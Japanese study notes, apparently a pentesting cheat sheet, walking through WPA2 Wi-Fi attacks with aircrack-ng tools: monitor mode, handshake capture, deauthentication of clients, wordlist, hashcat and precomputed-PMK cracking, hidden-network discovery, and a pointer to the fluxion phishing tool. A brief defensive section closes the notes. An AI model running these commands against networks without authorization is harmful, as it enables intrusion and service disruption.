 # ワイヤレス侵入

WPA2 の想定

## モード変更

WiFi アダプタには manage, monitor の 2 種類のモードがある。

```shell
# ネットワークインターフェース確認
ifconfig

# モードを確認（※デフォルトは managed）
iwconfig

# インターフェースをダウン
sudo ifconfig <interface name> down

# モニターモードに変更
sudo iwconfig <interface name> mode monitor

# インターフェースをアップ
sudo ifconfig <interface name> up

# モードを確認（※monitor に変わっていたら成功）
iwconfig
```

## WiFi アダプタが動作していないときに実行するスクリプト

```shell
sudo airmon-ng check kill
sudo ifconfig <interface name> down
sudo iwconfig <interface name> mode monitor
sudo ifconfig <interface name> up
sudo systemctl restart networking
sudo nmcli networking on
```

## 4way ハンドシェイクのキャプチャ取得

### パケットをダンプ（チャンネルとアクセスポイントの BSSID を確認）

```shell
sudo airodump-ng <interface name>
```

### パケットをダンプしてファイル出力

```shell
sudo airodump-ng -c <channel> --bbsid <BSSID> -w <filename> <interface name>
```

### 非認証攻撃でクライアントに再接続させる（再接続時の 4way ハンドシェイクをキャプチャする目的）

```shell
sudo aireplay-ng -0 0 -a <MAC> <interface name>
```

#### cap ファイルは WireShark で開ける

```shell
wireshark <filename>-01.cap
```

## aircrack-ng

### ワードリストを使ってパスワードをクラック

```shell
aircrack-ng -w /usr/share/wordlists/rockyou.txt <filename>-01.cap
```

### パイプで渡すこともできるが、マッチしても処理が止まらないため使えないと思う

```shell
crunch 12 12 -t abcdef@@@%%% | aircrack-ng -w - SCAN-01.cap
```

## hashcat

GPU を使うため、aircrack-ng より速い

### hcxtools をインストール

```shell
sudo apt install hcxtools
```

### cap を hashcat で扱える形式に変換

```shell
hcxpcapngtool -o output.22000 input.cap
```

### ワードリストを使ってパスワードをクラック

```shell
hashcat -m 22000 output.22000 wordlist.txt
```

## レインボーテーブル

計算負荷の高い PMK を事前に計算しておく手口

### レインボーテーブル作成（ESSID とパスワードの組から PMK が生成される）

PMK = PBKDF2(HMAC-SHA1, パスワード, ESSID, 4096, 256-bit)

```shell
airolib-ng <レインボーテーブル名> --import essid essid.txt
airolib-ng <レインボーテーブル名> --import passwd password.txt
airolib-ng <レインボーテーブル名> --batch
airolib-ng <レインボーテーブル名> --stats
```

### テーブル内容確認

```shell
airolib-ng <レインボーテーブル名> --sql 'select * from essid'
airolib-ng <レインボーテーブル名> --sql 'select * from passwd'
airolib-ng <レインボーテーブル名> --sql 'select * from pmk'
```

### テーブルクリア

```shell
airolib-ng <レインボーテーブル名> --clean all
```

### レインボーテーブルを使ってクラックする

PMK とナンス、MAC を使って PTK が生成される  
PTK = PRF-512(PMK + ANonce + SNonce + MAC アドレス情報)

```shell
aircrack-ng -r <レインボーテーブル名> SCAN-01.cap
```

## fluxion

インタラクティブなツール。フィッシングでユーザーにパスワードを入力させるような機能もある。

https://github.com/FluxionNetwork/fluxion

## Hidden ネットワーク

### ①HiddenNetwork は、ESSID が空欄で表示されるが、BSSID は表示される

```shell
airodump-ng <interface name>
```

### ② BSSID に接続しているクライアントを見つける

```shell
airodump-ng --bssid <BSSID> -c <channel> <interface name>
```

### ③ 特定のクライアントにだけ認証解除パケットを送る（※② は起動したまま）

```shell
aireplay-ng --deauth 5 -a <BSSID> -c <client MAC> <interface name>
```

再接続が行われると、② の表示に ESSID が表示される。あとは通常の場合と同じ。

## セキュリティ視点

- WPA2 でリスト生成困難な程度に強力なパスワードを設定していれば、機械的にはクラックできない
- fluxion 等を使ったフィッシングには注意が必要（偽装ホストに誘導してパスワードを入力させる手口）
- レインボーテーブルは ESSID に対して作られるため、定期的にネットワーク名を変更するのは有効
- 逆に、パスワード変更はレインボーテーブルに対しては効果が無い可能性がある
- 隠しネットワークは、セキュリティ的な観点ではまったく無意味
